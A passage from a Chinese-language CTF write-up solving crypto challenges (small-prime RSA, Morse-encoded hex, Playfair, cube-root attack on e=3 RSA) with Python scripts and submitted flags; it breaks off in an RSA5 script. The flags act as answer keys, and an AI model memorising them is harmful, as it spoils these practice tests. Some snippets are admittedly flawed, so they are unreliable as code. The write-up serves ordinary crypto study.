写exp脚本：

```
import gmpy2
N,p,q,e=920139713,18443,49891,19
d=gmpy2.invert(e,(p-1)*(q-1))
result=[]

with open("./data2.txt","r") as f:
    for line in f.readlines():
        line=line.strip('\n')#去掉列表中每一个元素的换行符
        result.append(chr(pow(int(line),d,N)))

for i in result:
    print(i,end='')
```

这里跑脚本的时候记得把头起的N和e给删了。这里的密文是文件中每行数字去进行以下解密操作。

```
>python3 exp.py
flag{13212je2ue28fy71w8u87y31r78eu1e2}
```

### [AFCTF2018]Morse

获得文件`attachment.txt`:

```
-..../.----/-..../-..../-..../...--/--.../....-/-..../-..../--.../-.../...--/.----/--.../...--/..---/--.../--.../....-/...../..-./--.../...--/...--/-----/...../..-./...--/...--/...--/....-/...--/...../--.../----./--.../-..
```

用摩尔斯电码解码一下得到：



得到：

```
6 1 6 6 6 3 7 4 6 6 7 b 3 1 7 3 2 7 7 4 5 f 7 3 3 0 5 f 3 3 3 4 3 5 7 9 7 d 
```

这个是ascii编码，使用python3命令行处理(下面有的语句玩的不太好，比较臃肿，代码比我好的同志可以自己写个更好的代码)：

```
>>> str1 = "6 1 6 6 6 3 7 4 6 6 7 b 3 1 7 3 2 7 7 4 5 f 7 3 3 0 5 f 3 3 3 4 3 5 7 9 7 d "
>>> str1[::3]
'6 6 7 6 3 3 7 f 3 f 3 5 7 '
>>> str1[::2]
'61666374667b317327745f73305f333435797d'
>>> str1[::2][::2]
'6667673727573533377'
>>> str1[::2][1:][::2]
'16346b1374f30f3459d'
'16346b1374f30f3459d'
>>> list2 = []
>>> [ x+y for x in str1[::2][::2] for y in str1[::2][1:][::2] ]
['61', '66', '63', '64', '66', '6b', '61', '63', '67', '64', '6f', '63', '60', '6f', '63', '64', '65', '69', '6d', '61', '66', '63', '64', '66', '6b', '61', '63', '67', '64', '6f', '63', '60', '6f', '63', '64', '65', '69', '6d', '61', '66', '63', '64', '66', '6b', '61', '63', '67', '64', '6f', '63', '60', '6f', '63', '64', '65', '69', '6d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '61', '66', '63', '64', '66', '6b', '61', '63', '67', '64', '6f', '63', '60', '6f', '63', '64', '65', '69', '6d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '31', '36', '33', '34', '36', '3b', '31', '33', '37', '34', '3f', '33', '30', '3f', '33', '34', '35', '39', '3d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '21', '26', '23', '24', '26', '2b', '21', '23', '27', '24', '2f', '23', '20', '2f', '23', '24', '25', '29', '2d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '51', '56', '53', '54', '56', '5b', '51', '53', '57', '54', '5f', '53', '50', '5f', '53', '54', '55', '59', '5d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '31', '36', '33', '34', '36', '3b', '31', '33', '37', '34', '3f', '33', '30', '3f', '33', '34', '35', '39', '3d', '51', '56', '53', '54', '56', '5b', '51', '53', '57', '54', '5f', '53', '50', '5f', '53', '54', '55', '59', '5d', '31', '36', '33', '34', '36', '3b', '31', '33', '37', '34', '3f', '33', '30', '3f', '33', '34', '35', '39', '3d', '31', '36', '33', '34', '36', '3b', '31', '33', '37', '34', '3f', '33', '30', '3f', '33', '34', '35', '39', '3d', '31', '36', '33', '34', '36', '3b', '31', '33', '37', '34', '3f', '33', '30', '3f', '33', '34', '35', '39', '3d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d', '71', '76', '73', '74', '76', '7b', '71', '73', '77', '74', '7f', '73', '70', '7f', '73', '74', '75', '79', '7d']

```

这玩的太花了，忘了列表生成器里面这个输出是笛卡尔序列的输出。

```
>>> str1[::2]
'61666374667b317327745f73305f333435797d'
>>> str2[1:][::2]
'16346b1374f30f3459d'
>>> list1 = '6667673727573533377';list2 = '16346b1374f30f3459d'
>>> list3 = []
>>> for i in list1:
...     list3.append(i)
...
>>> list3
['6', '6', '6', '7', '6', '7', '3', '7', '2', '7', '5', '7', '3', '5', '3', '3', '3', '7', '7']
>>> for i in range(len(list2)):
...     list3[i] = list3[i]+list2[i]
...
>>> list3
['61', '66', '63', '74', '66', '7b', '31', '73', '27', '74', '5f', '73', '30', '5f', '33', '34', '35', '79', '7d']
>>> for i in list3:
...     print(chr(int(i,16)),end="")
...
afctf{1s't_s0_345y}
```

提交flag:`flag{1s't_s0_345y}`

### Cipher

[参考WP](https://blog.csdn.net/qq_45784859/article/details/105766145)

[playfair在线解密网址](http://rumkin.com/tools/cipher/playfair.php)

题干：

```
还能提示什么呢？公平的玩吧（密钥自己找） Dncnoqqfliqrpgeklwmppu 注意：得到的 flag 请包上 flag{} 提交, flag{小写字母}
```



下面脚本有点点不对，修正下：

```
>>> str1= "it is no ta pr ob le mh ve ef un"
>>> str1.replace(" ",'')
'itisnotaproblemhveefun'
```

提交flag:`flag{itisnotaproblemhavefun}`

#### 总结

这是Playfair密码，密钥是`公平的玩”-playfair`


### Dangerous RSA

[参考WP](https://shawroot.hatenablog.com/entry/2019/09/02/BUUCTF-Dangerous_RSA_(%E4%BD%8E%E5%8A%A0%E5%AF%86%E6%8C%87%E6%95%B0%E6%94%BB%E5%87%BB)_WriteUp)

题干：

```
littlE littlE RSA Big Big Dangerous 注意：得到的 flag 请包上 flag{} 提交
```

解压得`problem`:

```
#n:  0x52d483c27cd806550fbe0e37a61af2e7cf5e0efb723dfc81174c918a27627779b21fa3c851e9e94188eaee3d5cd6f752406a43fbecb53e80836ff1e185d3ccd7782ea846c2e91a7b0808986666e0bdadbfb7bdd65670a589a4d2478e9adcafe97c6ee23614bcb2ecc23580f4d2e3cc1ecfec25c50da4bc754dde6c8bfd8d1fc16956c74d8e9196046a01dc9f3024e11461c294f29d7421140732fedacac97b8fe50999117d27943c953f18c4ff4f8c258d839764078d4b6ef6e8591e0ff5563b31a39e6374d0d41c8c46921c25e5904a817ef8e39e5c9b71225a83269693e0b7e3218fc5e5a1e8412ba16e588b3d6ac536dce39fcdfce81eec79979ea6872793L
#e:  0x3
#c:0x10652cdfaa6b63f6d7bd1109da08181e500e5643f5b240a9024bfa84d5f2cac9310562978347bb232d63e7289283871efab83d84ff5a7b64a94a79d34cfbd4ef121723ba1f663e514f83f6f01492b4e13e1bb4296d96ea5a353d3bf2edd2f449c03c4a3e995237985a596908adc741f32365
so,how to get the message?
```

在 RSA 中 e 也称为加密指数。由于 e 是可以随意选取的，选取小一点的 e 可以缩短加密时间（比如 3），但是选取不当的话，就会造成安全问题

编写EXP：

```
# -*- coding: cp936 -*-
import gmpy2
e = 3
# 读入 n, 密文
n= 10456335904838169914349646852830082932152130624533179855437700729986430916359910968035371355128152016750075271161129744979254605922991030753616570849211931989112941277121682363790710646503345520505931418350219098036569932546893477983585713668853372819392130314661542626399462820378837771792293945490048339575869129479058678981790418112887403292721775644533540769467889512773382494878291574262142755186374570245813695390664702262226281601456889176191920270658811753696081082528539263191477192236336112147705564796435800152614366113854349615104191052807647128834113146535639155857819697492608839941056356828288393881491
c= 2217344750798296091193230394221582894657909643174934416842588335871298152598368701484028832407289746218387783855373449002121088413603751014125921242419602155087438902181522441026460003722677539409576093794862185483713606547386172606576925933695952279401957552813065318376293
print 'n=', n
print 'c=', c
print '[+]Detecting m...'
result = gmpy2.iroot(c, 3)
print '  [-]The c has cubic root?', result[1]
if result[1]: print '  [-]The m is:', '{:x}'.format(result[0]).decode('hex')
print '[!]All Done!'
```

运行结果如下：

```
>python exp.py
n= 10456335904838169914349646852830082932152130624533179855437700729986430916359910968035371355128152016750075271161129744979254605922991030753616570849211931989112941277121682363790710646503345520505931418350219098036569932546893477983585713668853372819392130314661542626399462820378837771792293945490048339575869129479058678981790418112887403292721775644533540769467889512773382494878291574262142755186374570245813695390664702262226281601456889176191920270658811753696081082528539263191477192236336112147705564796435800152614366113854349615104191052807647128834113146535639155857819697492608839941056356828288393881491
c= 2217344750798296091193230394221582894657909643174934416842588335871298152598368701484028832407289746218387783855373449002121088413603751014125921242419602155087438902181522441026460003722677539409576093794862185483713606547386172606576925933695952279401957552813065318376293
[+]Detecting m...
  [-]The c has cubic root? True
  [-]The m is: flag{25df8caf006ee5db94d48144c33b2c3b}
[!]All Done!
```

### [HDCTF2019]basic rsa

题干：

```
得到的 flag 请包上 flag{} 提交。
```

得到`attachment.py`：

```
import gmpy2
from Crypto.Util.number import *
from binascii import a2b_hex,b2a_hex

flag = "*****************"

p = 262248800182277040650192055439906580479
q = 262854994239322828547925595487519915551

e = 65533
n = p*q


c = pow(int(b2a_hex(flag),16),e,n)

print c

# 27565231154623519221597938803435789010285480123476977081867877272451638645710
```

构造EXP：

```
import gmpy2
import libnum
from Crypto.Util.number import *
#from binascii import a2b_hex,b2a_hex

flag = "*****************"   #flag为m

p = 262248800182277040650192055439906580479
q = 262854994239322828547925595487519915551

e = 65533
n = p*q

d = gmpy2.invert(e,(p-1)*(q-1))
print(d)
#c = pow(int(b2a_hex(flag),16),e,n)

#print c

c = 27565231154623519221597938803435789010285480123476977081867877272451638645710
# c = m^e % n
# m = c^d % n
m = pow(c,d,n)
print(m)
print(long_to_bytes(2077392566271395359695912870032509))
# 51938044911383735496696766945348482589325573182146510406365903911685548598997
# 2077392566271395359695912870032509
# b'flag{B4by_Rs4}'
```

运行exp得到：

```
>python3 exp.py
51938044911383735496696766945348482589325573182146510406365903911685548598997
2077392566271395359695912870032509
b'flag{B4by_Rs4}'
```

#### 总结

[RSA gmpy2函数实现](https://blog.csdn.net/DeeBaTO/article/details/110529106)

不太理解`long_to_bytes`这个函数，其实用其他函数模仿演示了下：

```
>>> (10).to_bytes(10,'big')
b'\x00\x00\x00\x00\x00\x00\x00\x00\x00\n'
>>> (1213).to_bytes(10,'big')
b'\x00\x00\x00\x00\x00\x00\x00\x00\x04\xbd'
>>> hex(1213)
'0x4bd'
```

还有，pow函数如果处理过大的数字，会出现mpz类型，本质上也是数字，是那种超大的数字。

另外，py3里没有长整形的说法。因为py3的整形没有限制。py2才有长整型的概念。

### RSA5

题干:

```
注意：得到的 flag 请包上 flag{} 提交
```

获得文件`1.txt`:

```
m = xxxxxxxx
e = 65537
========== n c ==========
n = 20474918894051778533305262345601880928088284471121823754049725354072477155873778848055073843345820697886641086842612486541250183965966001591342031562953561793332341641334302847996108417466360688139866505179689516589305636902137210185624650854906780037204412206309949199080005576922775773722438863762117750429327585792093447423980002401200613302943834212820909269713876683465817369158585822294675056978970612202885426436071950214538262921077409076160417436699836138801162621314845608796870206834704116707763169847387223307828908570944984416973019427529790029089766264949078038669523465243837675263858062854739083634207
c = 974463908243330865728978769213595400782053398596897741316275722596415018912929508637393850919224969271766388710025195039896961956062895570062146947736340342927974992616678893372744261954172873490878805483241196345881721164078651156067119957816422768524442025688079462656755605982104174001635345874022133045402344010045961111720151990412034477755851802769069309069018738541854130183692204758761427121279982002993939745343695671900015296790637464880337375511536424796890996526681200633086841036320395847725935744757993013352804650575068136129295591306569213300156333650910795946800820067494143364885842896291126137320

n = 20918819960648891349438263046954902210959146407860980742165930253781318759285692492511475263234242002509419079545644051755251311392635763412553499744506421566074721268822337321637265942226790343839856182100575539845358877493718334237585821263388181126545189723429262149630651289446553402190531135520836104217160268349688525168375213462570213612845898989694324269410202496871688649978370284661017399056903931840656757330859626183773396574056413017367606446540199973155630466239453637232936904063706551160650295031273385619470740593510267285957905801566362502262757750629162937373721291789527659531499435235261620309759
c = 15819636201971185538694880505120469332582151856714070824521803121848292387556864177196229718923770810072104155432038682511434979353089791861087415144087855679134383396897817458726543883093567600325204596156649305930352575274039425470836355002691145864435755333821133969266951545158052745938252574301327696822347115053614052423028835532509220641378760800693351542633860702225772638930501021571415907348128269681224178300248272689705308911282208685459668200507057183420662959113956077584781737983254788703048275698921427029884282557468334399677849962342196140864403989162117738206246183665814938783122909930082802031855

n = 25033254625906757272369609119214202033162128625171246436639570615263949157363273213121556825878737923265290579551873824374870957467163989542063489416636713654642486717219231225074115269684119428086352535471683359486248203644461465935500517901513233739152882943010177276545128308412934555830087776128355125932914846459470221102007666912211992310538890654396487111705385730502843589727289829692152177134753098649781412247065660637826282055169991824099110916576856188876975621376606634258927784025787142263367152947108720757222446686415627479703666031871635656314282727051189190889008763055811680040315277078928068816491
c = 4185308529416874005831230781014092407198451385955677399668501833902623478395669279404883990725184332709152443372583701076198786635291739356770857286702107156730020004358955622511061410661058982622055199736820808203841446796305284394651714430918690389486920560834672316158146453183789412140939029029324756035358081754426645160033262924330248675216108270980157049705488620263485129480952814764002865280019185127662449318324279383277766416258142275143923532168798413011028271543085249029048997452212503111742302302065401051458066585395360468447460658672952851643547193822775218387853623453638025492389122204507555908862

n = 21206968097314131007183427944486801953583151151443627943113736996776787181111063957960698092696800555044199156765677935373149598221184792286812213294617749834607696302116136745662816658117055427803315230042700695125718401646810484873064775005221089174056824724922160855810527236751389605017579545235876864998419873065217294820244730785120525126565815560229001887622837549118168081685183371092395128598125004730268910276024806808565802081366898904032509920453785997056150497645234925528883879419642189109649009132381586673390027614766605038951015853086721168018787523459264932165046816881682774229243688581614306480751
c = 4521038011044758441891128468467233088493885750850588985708519911154778090597136126150289041893454126674468141393472662337350361712212694867311622970440707727941113263832357173141775855227973742571088974593476302084111770625764222838366277559560887042948859892138551472680654517814916609279748365580610712259856677740518477086531592233107175470068291903607505799432931989663707477017904611426213770238397005743730386080031955694158466558475599751940245039167629126576784024482348452868313417471542956778285567779435940267140679906686531862467627238401003459101637191297209422470388121802536569761414457618258343550613

n = 22822039733049388110936778173014765663663303811791283234361230649775805923902173438553927805407463106104699773994158375704033093471761387799852168337898526980521753614307899669015931387819927421875316304591521901592823814417756447695701045846773508629371397013053684553042185725059996791532391626429712416994990889693732805181947970071429309599614973772736556299404246424791660679253884940021728846906344198854779191951739719342908761330661910477119933428550774242910420952496929605686154799487839923424336353747442153571678064520763149793294360787821751703543288696726923909670396821551053048035619499706391118145067
c = 15406498580761780108625891878008526815145372096234083936681442225155097299264808624358826686906535594853622687379268969468433072388149786607395396424104318820879443743112358706546753935215756078345959375299650718555759698887852318017597503074317356745122514481807843745626429797861463012940172797612589031686718185390345389295851075279278516147076602270178540690147808314172798987497259330037810328523464851895621851859027823681655934104713689539848047163088666896473665500158179046196538210778897730209572708430067658411755959866033531700460551556380993982706171848970460224304996455600503982223448904878212849412357

n = 21574139855341432908474064784318462018475296809327285532337706940126942575349507668289214078026102682252713757703081553093108823214063791518482289846780197329821139507974763780260290309600884920811959842925540583967085670848765317877441480914852329276375776405689784571404635852204097622600656222714808541872252335877037561388406257181715278766652824786376262249274960467193961956690974853679795249158751078422296580367506219719738762159965958877806187461070689071290948181949561254144310776943334859775121650186245846031720507944987838489723127897223416802436021278671237227993686791944711422345000479751187704426369
c = 20366856150710305124583065375297661819795242238376485264951185336996083744604593418983336285185491197426018595031444652123288461491879021096028203694136683203441692987069563513026001861435722117985559909692670907347563594578265880806540396777223906955491026286843168637367593400342814725694366078337030937104035993569672959361347287894143027186846856772983058328919716702982222142848848117768499996617588305301483085428547267337070998767412540225911508196842253134355901263861121500650240296746702967594224401650220168780537141654489215019142122284308116284129004257364769474080721001708734051264841350424152506027932

n = 25360227412666612490102161131174584819240931803196448481224305250583841439581008528535930814167338381983764991296575637231916547647970573758269411168219302370541684789125112505021148506809643081950237623703181025696585998044695691322012183660424636496897073045557400768745943787342548267386564625462143150176113656264450210023925571945961405709276631990731602198104287528528055650050486159837612279600415259486306154947514005408907590083747758953115486124865486720633820559135063440942528031402951958557630833503775112010715604278114325528993771081233535247118481765852273252404963430792898948219539473312462979849137
c = 19892772524651452341027595619482734356243435671592398172680379981502759695784087900669089919987705675899945658648623800090272599154590123082189645021800958076861518397325439521139995652026377132368232502108620033400051346127757698623886142621793423225749240286511666556091787851683978017506983310073524398287279737680091787333547538239920607761080988243639547570818363788673249582783015475682109984715293163137324439862838574460108793714172603672477766831356411304446881998674779501188163600664488032943639694828698984739492200699684462748922883550002652913518229322945040819064133350314536378694523704793396169065179

n = 22726855244632356029159691753451822163331519237547639938779517751496498713174588935566576167329576494790219360727877166074136496129927296296996970048082870488804456564986667129388136556137013346228118981936899510687589585286517151323048293150257036847475424044378109168179412287889340596394755257704938006162677656581509375471102546261355748251869048003600520034656264521931808651038524134185732929570384705918563982065684145766427962502261522481994191989820110575981906998431553107525542001187655703534683231777988419268338249547641335718393312295800044734534761692799403469497954062897856299031257454735945867491191
c = 6040119795175856407541082360023532204614723858688636724822712717572759793960246341800308149739809871234313049629732934797569781053000686185666374833978403290525072598774001731350244744590772795701065129561898116576499984185920661271123665356132719193665474235596884239108030605882777868856122378222681140570519180321286976947154042272622411303981011302586225630859892731724640574658125478287115198406253847367979883768000812605395482952698689604477719478947595442185921480652637868335673233200662100621025061500895729605305665864693122952557361871523165300206070325660353095592778037767395360329231331322823610060006

n = 23297333791443053297363000786835336095252290818461950054542658327484507406594632785712767459958917943095522594228205423428207345128899745800927319147257669773812669542782839237744305180098276578841929496345963997512244219376701787616046235397139381894837435562662591060768476997333538748065294033141610502252325292801816812268934171361934399951548627267791401089703937389012586581080223313060159456238857080740699528666411303029934807011214953984169785844714159627792016926490955282697877141614638806397689306795328344778478692084754216753425842557818899467945102646776342655167655384224860504086083147841252232760941
c = 5418120301208378713115889465579964257871814114515046096090960159737859076829258516920361577853903925954198406843757303687557848302302200229295916902430205737843601806700738234756698575708612424928480440868739120075888681672062206529156566421276611107802917418993625029690627196813830326369874249777619239603300605876865967515719079797115910578653562787899019310139945904958024882417833736304894765433489476234575356755275147256577387022873348906900149634940747104513850154118106991137072643308620284663108283052245750945228995387803432128842152251549292698947407663643895853432650029352092018372834457054271102816934

n = 28873667904715682722987234293493200306976947898711255064125115933666968678742598858722431426218914462903521596341771131695619382266194233561677824357379805303885993804266436810606263022097900266975250431575654686915049693091467864820512767070713267708993899899011156106766178906700336111712803362113039613548672937053397875663144794018087017731949087794894903737682383916173267421403408140967713071026001874733487295007501068871044649170615709891451856792232315526696220161842742664778581287321318748202431466508948902745314372299799561625186955234673012098210919745879882268512656931714326782335211089576897310591491
c = 9919880463786836684987957979091527477471444996392375244075527841865509160181666543016317634963512437510324198702416322841377489417029572388474450075801462996825244657530286107428186354172836716502817609070590929769261932324275353289939302536440310628698349244872064005700644520223727670950787924296004296883032978941200883362653993351638545860207179022472492671256630427228461852668118035317021428675954874947015197745916918197725121122236369382741533983023462255913924692806249387449016629865823316402366017657844166919846683497851842388058283856219900535567427103603869955066193425501385255322097901531402103883869

n = 22324685947539653722499932469409607533065419157347813961958075689047690465266404384199483683908594787312445528159635527833904475801890381455653807265501217328757871352731293000303438205315816792663917579066674842307743845261771032363928568844669895768092515658328756229245837025261744260614860746997931503548788509983868038349720225305730985576293675269073709022350700836510054067641753713212999954307022524495885583361707378513742162566339010134354907863733205921845038918224463903789841881400814074587261720283879760122070901466517118265422863420376921536734845502100251460872499122236686832189549698020737176683019
c = 1491527050203294989882829248560395184804977277747126143103957219164624187528441047837351263580440686474767380464005540264627910126483129930668344095814547592115061057843470131498075060420395111008619027199037019925701236660166563068245683975787762804359520164701691690916482591026138582705558246869496162759780878437137960823000043988227303003876410503121370163303711603359430764539337597866862508451528158285103251810058741879687875218384160282506172706613359477657215420734816049393339593755489218588796607060261897905233453268671411610631047340459487937479511933450369462213795738933019001471803157607791738538467

n = 27646746423759020111007828653264027999257847645666129907789026054594393648800236117046769112762641778865620892443423100189619327585811384883515424918752749559627553637785037359639801125213256163008431942593727931931898199727552768626775618479833029101249692573716030706695702510982283555740851047022672485743432464647772882314215176114732257497240284164016914018689044557218920300262234652840632406067273375269301008409860193180822366735877288205783314326102263756503786736122321348320031950012144905869556204017430593656052867939493633163499580242224763404338807022510136217187779084917996171602737036564991036724299
c = 21991524128957260536043771284854920393105808126700128222125856775506885721971193109361315961129190814674647136464887087893990660894961612838205086401018885457667488911898654270235561980111174603323721280911197488286585269356849579263043456316319476495888696219344219866516861187654180509247881251251278919346267129904739277386289240394384575124331135655943513831009934023397457082184699737734388823763306805326430395849935770213817533387235486307008892410920611669932693018165569417445885810825749609388627231235840912644654685819620931663346297596334834498661789016450371769203650109994771872404185770230172934013971

n = 20545487405816928731738988374475012686827933709789784391855706835136270270933401203019329136937650878386117187776530639342572123237188053978622697282521473917978282830432161153221216194169879669541998840691383025487220850872075436064308499924958517979727954402965612196081404341651517326364041519250125036424822634354268773895465698920883439222996581226358595873993976604699830613932320720554130011671297944433515047180565484495191003887599891289037982010216357831078328159028953222056918189365840711588671093333013117454034313622855082795813122338562446223041211192277089225078324682108033843023903550172891959673551
c = 14227439188191029461250476692790539654619199888487319429114414557975376308688908028140817157205579804059783807641305577385724758530138514972962209062230576107406142402603484375626077345190883094097636019771377866339531511965136650567412363889183159616188449263752475328663245311059988337996047359263288837436305588848044572937759424466586870280512424336807064729894515840552404756879590698797046333336445465120445087587621743906624279621779634772378802959109714400516183718323267273824736540168545946444437586299214110424738159957388350785999348535171553569373088251552712391288365295267665691357719616011613628772175

n = 27359727711584277234897157724055852794019216845229798938655814269460046384353568138598567755392559653460949444557879120040796798142218939251844762461270251672399546774067275348291003962551964648742053215424620256999345448398805278592777049668281558312871773979931343097806878701114056030041506690476954254006592555275342579529625231194321357904668512121539514880704046969974898412095675082585315458267591016734924646294357666924293908418345508902112711075232047998775303603175363964055048589769318562104883659754974955561725694779754279606726358588862479198815999276839234952142017210593887371950645418417355912567987
c = 3788529784248255027081674540877016372807848222776887920453488878247137930578296797437647922494510483767651150492933356093288965943741570268943861987024276610712717409139946409513963043114463933146088430004237747163422802959250296602570649363016151581364006795894226599584708072582696996740518887606785460775851029814280359385763091078902301957226484620428513604630585131511167015763190591225884202772840456563643159507805711004113901417503751181050823638207803533111429510911616160851391754754434764819568054850823810901159821297849790005646102129354035735350124476838786661542089045509656910348676742844957008857457

n = 27545937603751737248785220891735796468973329738076209144079921449967292572349424539010502287564030116831261268197384650511043068738911429169730640135947800885987171539267214611907687570587001933829208655100828045651391618089603288456570334500533178695238407684702251252671579371018651675054368606282524673369983034682330578308769886456335818733827237294570476853673552685361689144261552895758266522393004116017849397346259119221063821663280935820440671825601452417487330105280889520007917979115568067161590058277418371493228631232457972494285014767469893647892888681433965857496916110704944758070268626897045014782837
c = 14069112970608895732417039977542732665796601893762401500878786871680645798754783315693511261740059725171342404186571066972546332813667711135661176659424619936101038903439144294886379322591635766682645179888058617577572409307484708171144488708410543462972008179994594087473935638026612679389759756811490524127195628741262871304427908481214992471182859308828778119005750928935764927967212343526503410515793717201360360437981322576798056276657140363332700714732224848346808963992302409037706094588964170239521193589470070839790404597252990818583717869140229811712295005710540476356743378906642267045723633874011649259842

n = 25746162075697911560263181791216433062574178572424600336856278176112733054431463253903433128232709054141607100891177804285813783247735063753406524678030561284491481221681954564804141454666928657549670266775659862814924386584148785453647316864935942772919140563506305666207816897601862713092809234429096584753263707828899780979223118181009293655563146526792388913462557306433664296966331469906428665127438829399703002867800269947855869262036714256550075520193125987011945192273531732276641728008406855871598678936585324782438668746810516660152018244253008092470066555687277138937298747951929576231036251316270602513451
c = 17344284860275489477491525819922855326792275128719709401292545608122859829827462088390044612234967551682879954301458425842831995513832410355328065562098763660326163262033200347338773439095709944202252494552172589503915965931524326523663289777583152664722241920800537867331030623906674081852296232306336271542832728410803631170229642717524942332390842467035143631504401140727083270732464237443915263865880580308776111219718961746378842924644142127243573824972533819479079381023103585862099063382129757560124074676150622288706094110075567706403442920696472627797607697962873026112240527498308535903232663939028587036724

n = 23288486934117120315036919418588136227028485494137930196323715336208849327833965693894670567217971727921243839129969128783853015760155446770590696037582684845937132790047363216362087277861336964760890214059732779383020349204803205725870225429985939570141508220041286857810048164696707018663758416807708910671477407366098883430811861933014973409390179948577712579749352299440310543689035651465399867908428885541237776143404376333442949397063249223702355051571790555151203866821867908531733788784978667478707672984539512431549558672467752712004519300318999208102076732501412589104904734983789895358753664077486894529499
c = 10738254418114076548071448844964046468141621740603214384986354189105236977071001429271560636428075970459890958274941762528116445171161040040833357876134689749846940052619392750394683504816081193432350669452446113285638982551762586656329109007214019944975816434827768882704630460001209452239162896576191876324662333153835533956600295255158377025198426950944040643235430211011063586032467724329735785947372051759042138171054165854842472990583800899984893232549092766400510300083585513014171220423103452292891496141806956300396540682381668367564569427813092064053993103537635994311143010708814851867239706492577203899024

n = 19591441383958529435598729113936346657001352578357909347657257239777540424811749817783061233235817916560689138344041497732749011519736303038986277394036718790971374656832741054547056417771501234494768509780369075443550907847298246275717420562375114406055733620258777905222169702036494045086017381084272496162770259955811174440490126514747876661317750649488774992348005044389081101686016446219264069971370646319546429782904810063020324704138495608761532563310699753322444871060383693044481932265801505819646998535192083036872551683405766123968487907648980900712118052346174533513978009131757167547595857552370586353973
c = 3834917098887202931981968704659119341624432294759361919553937551053499607440333234018189141970246302299385742548278589896033282894981200353270637127213483172182529890495903425649116755901631101665876301799865612717750360089085179142750664603454193642053016384714515855868368723508922271767190285521137785688075622832924829248362774476456232826885801046969384519549385428259591566716890844604696258783639390854153039329480726205147199247183621535172450825979047132495439603840806501254997167051142427157381799890725323765558803808030109468048682252028720241357478614704610089120810367192414352034177484688502364022887

n = 19254242571588430171308191757871261075358521158624745702744057556054652332495961196795369630484782930292003238730267396462491733557715379956969694238267908985251699834707734400775311452868924330866502429576951934279223234676654749272932769107390976321208605516299532560054081301829440688796904635446986081691156842271268059970762004259219036753174909942343204432795076377432107630203621754552804124408792358220071862369443201584155711893388877350138023238624566616551246804054720492816226651467017802504094070614892556444425915920269485861799532473383304622064493223627552558344088839860178294589481899206318863310603
c = 6790553533991297205804561991225493105312398825187682250780197510784765226429663284220400480563039341938599783346724051076211265663468643826430109013245014035811178295081939958687087477312867720289964506097819762095244479129359998867671811819738196687884696680463458661374310994610760009474264115750204920875527434486437536623589684519411519100170291423367424938566820315486507444202022408003879118465761273916755290898112991525546114191064022991329724370064632569903856189236177894007766690782630247443895358893983735822824243487181851098787271270256780891094405121947631088729917398317652320497765101790132679171889

n = 26809700251171279102974962949184411136459372267620535198421449833298448092580497485301953796619185339316064387798092220298630428207556482805739803420279056191194360049651767412572609187680508073074653291350998253938793269214230457117194434853888765303403385824786231859450351212449404870776320297419712486574804794325602760347306432927281716160368830187944940128907971027838510079519466846176106565164730963988892400240063089397720414921398936399927948235195085202171264728816184532651138221862240969655185596628285814057082448321749567943946273776184657698104465062749244327092588237927996419620170254423837876806659
c = 386213556608434013769864727123879412041991271528990528548507451210692618986652870424632219424601677524265011043146748309774067894985069288067952546139416819404039688454756044862784630882833496090822568580572859029800646671301748901528132153712913301179254879877441322285914544974519727307311002330350534857867516466612474769753577858660075830592891403551867246057397839688329172530177187042229028685862036140779065771061933528137423019407311473581832405899089709251747002788032002094495379614686544672969073249309703482556386024622814731015767810042969813752548617464974915714425595351940266077021672409858645427346

```

构造脚本`1.py`：

```
# coding=utf-8

from gmpy2 import *
n1 = 20474918894051778533305262345601880928088284471121823754049725354072477155873778848055073843345820697886641086842612486541250183965966001591342031562953561793332341641334302847996108417466360688139866505179689516589305636902137210185624650854906780037204412206309949199080005576922775773722438863762117750429327585792093447423980002401200613302943834212820909269713876683465817369158585822294675056978970612202885426436071950214538262921077409076160417436699836138801162621314845608796870206834704116707763169847387223307828908570944984416973019427529790029089766264949078038669523465243837675263858062854739083634207
c1 = 974463908243330865728978769213595400782053398596897741316275722596415018912929508637393850919224969271766388710025195039896961956062895570062146947736340342927974992616678893372744261954172873490878805483241196345881721164078651156067119957816422768524442025688079462656755605982104174001635345874022133045402344010045961111720151990412034477755851802769069309069018738541854130183692204758761427121279982002993939745343695671900015296790637464880337375511536424796890996526681200633086841036320395847725935744757993013352804650575068136129295591306569213300156333650910795946800820067494143364885842896291126137320

n2 = 20918819960648891349438263046954902210959146407860980742165930253781318759285692492511475263234242002509419079545644051755251311392635763412553499744506421566074721268822337321637265942226790343839856182100575539845358877493718334237585821263388181126545189723429262149630651289446553402190531135520836104217160268349688525168375213462570213612845898989694324269410202496871688649978370284661017399056903931840656757330859626183773396574056413017367606446540199973155630466239453637232936904063706551160650295031273385619470740593510267285957905801566362502262757750629162937373721291789527659531499435235261620309759
c2 = 15819636201971185538694880505120469332582151856714070824521803121848292387556864177196229718923770810072104155432038682511434979353089791861087415144087855679134383396897817458726543883093567600325204596156649305930352575274039425470836355002691145864435755333821133969266951545158052745938252574301327696822347115053614052423028835532509220641378760800693351542633860702225772638930501021571415907348128269681224178300248272689705308911282208685459668200507057183420662959113956077584781737983254788703048275698921427029884282557468334399677849962342196140864403989162117738206246183665814938783122909930082802031855

n3 = 25033254625906757272369609119214202033162128625171246436639570615263949157363273213121556825878737923265290579551873824374870957467163989542063489416636713654642486717219231225074115269684119428086352535471683359486248203644461465935500517901513233739152882943010177276545128308412934555830087776128355125932914846459470221102007666912211992310538890654396487111705385730502843589727289829692152177134753098649781412247065660637826282055169991824099110916576856188876975621376606634258927784025787142263367152947108720757222446686415627479703666031871635656314282727051189190889008763055811680040315277078928068816491
c3 = 4185308529416874005831230781014092407198451385955677399668501833902623478395669279404883990725184332709152443372583701076198786635291739356770857286702107156730020004358955622511061410661058982622055199736820808203841446796305284394651714430918690389486920560834672316158146453183789412140939029029324756035358081754426645160033262924330248675216108270980157049705488620263485129480952814764002865280019185127662449318324279383277766416258142275143923532168798413011028271543085249029048997452212503111742302302065401051458066585395360468447460658672952851643547193822775218387853623453638025492389122204507555908862

